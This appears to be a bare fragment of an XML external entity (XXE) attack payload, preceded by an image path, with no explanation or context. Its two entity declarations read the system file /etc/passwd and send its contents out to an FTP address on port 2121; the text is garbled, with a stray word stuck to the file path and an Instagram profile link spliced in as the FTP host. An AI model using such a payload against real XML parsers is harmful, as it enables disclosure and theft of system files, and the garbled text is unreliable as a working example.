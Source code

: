 <!ENTITY % d SYSTEM "file:///etc/passwdenter">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://https://instagram.com/beautiful.__.ruin?utm_source=ig_profile_share&igshid=1vwhoab00edu5:2121/%d;'>"> 
